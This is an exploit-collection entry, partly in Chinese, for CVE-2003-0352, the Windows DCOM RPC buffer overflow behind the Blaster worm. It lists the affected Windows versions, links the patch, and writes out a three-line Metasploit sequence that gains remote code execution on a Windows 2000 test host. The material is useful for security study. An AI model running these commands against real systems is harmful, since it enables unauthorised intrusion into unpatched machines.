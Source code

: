 ###  CVE-2003-0352

#### 描述

Buffer overflow in a certain DCOM interface for RPC in Microsoft Windows NT 4.0, 2000, XP, and Server 2003 allows remote attackers to execute arbitrary code via a malformed message, as exploited by the Blaster/MSblast/LovSAN and Nachi/Welchia worms.

#### 影响版本

| Product             | Version           | Update | Edition           | Tested |
| ------------------- | ----------------- | ------ | ----------------- | ------ |
| Windows 2000        |                   |        |                   |        |
| Windows 2000        |                   | SP1    |                   |        |
| Windows 2000        |                   | SP2    |                   |        |
| Windows 2000        |                   | SP3    |                   |        |
| Windows 2000        |                   | SP4    |                   |        |
| Windows 2003 Server | R2                |        | 64-bit            |        |
| Windows 2003 Server | R2                |        | Datacenter 64-bit |        |
| Windows 2003 Server | WEB               |        |                   |        |
| Windows 2003 Server | Enterprise        |        | 64-bit            |        |
| Windows 2003 Server | Enterprise 64-bit |        |                   |        |
| Windows 2003 Server | Standard          |        | 64-bit            |        |
| Windows Nt          | 4.0               | SP1    | Server            |        |
| Windows Nt          | 4.0               | SP5    | Server            |        |
| Windows Nt          | 4.0               | SP4    | Enterprise Server |        |
| Windows Nt          | 4.0               |        | Enterprise Server |        |
| Windows Nt          | 4.0               | SP6    | Workstation       |        |
| Windows Nt          | 4.0               | SP2    | Workstation       |        |
| Windows Nt          | 4.0               | SP1    | Terminal Server   |        |
| Windows Nt          | 4.0               | SP5    | Terminal Server   |        |
| Windows Nt          | 4.0               | SP4    | Server            |        |
| Windows Nt          | 4.0               |        | Server            |        |
| Windows Nt          | 4.0               | Sp6a   | Enterprise Server |        |
| Windows Nt          | 4.0               | SP3    | Enterprise Server |        |
| Windows Nt          | 4.0               | SP5    | Workstation       |        |
| Windows Nt          | 4.0               | SP1    | Workstation       |        |
| Windows Nt          | 4.0               | SP4    | Terminal Server   |        |
| Windows Nt          | 4.0               |        | Terminal Server   |        |
| Windows Nt          | 4.0               | Sp6a   | Server            |        |
| Windows Nt          | 4.0               | SP3    | Server            |        |
| Windows Nt          | 4.0               | SP6    | Enterprise Server |        |
| Windows Nt          | 4.0               | SP2    | Enterprise Server |        |
| Windows Nt          | 4.0               | SP4    | Workstation       |        |
| Windows Nt          | 4.0               |        | Workstation       |        |
| Windows Nt          | 4.0               | Sp6a   | Terminal Server   |        |
| Windows Nt          | 4.0               | SP3    | Terminal Server   |        |
| Windows Nt          | 4.0               | SP6    | Server            |        |
| Windows Nt          | 4.0               | SP2    | Server            |        |
| Windows Nt          | 4.0               | SP1    | Enterprise Server |        |
| Windows Nt          | 4.0               | SP5    | Enterprise Server |        |
| Windows Nt          | 4.0               | Sp6a   | Workstation       |        |
| Windows Nt          | 4.0               | SP3    | Workstation       |        |
| Windows Nt          | 4.0               | SP6    | Terminal Server   |        |
| Windows Nt          | 4.0               | SP2    | Terminal Server   |        |
| Windows Xp          |                   |        | 64-bit            |        |
| Windows Xp          |                   |        | Home              |        |
| Windows Xp          |                   | Gold   | Professional      |        |
| Windows Xp          |                   | SP1    | 64-bit            |        |
| Windows Xp          |                   | SP1    | Home              |        |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2003-0352
```

#### 利用方式

测试系统windows 2000 sp4 x86

```
use exploit/windows/dcerpc/ms03_026_dcom
set RHOST 192.168.1.17
run
```

![image-20200823200752021](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2003-0352_win2000_x86_msf.png?raw=true)

查看系统信息

![CVE-2003-0352_win2000_x86_msf2](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2003-0352_win2000_x86_msf2.png?raw=true)
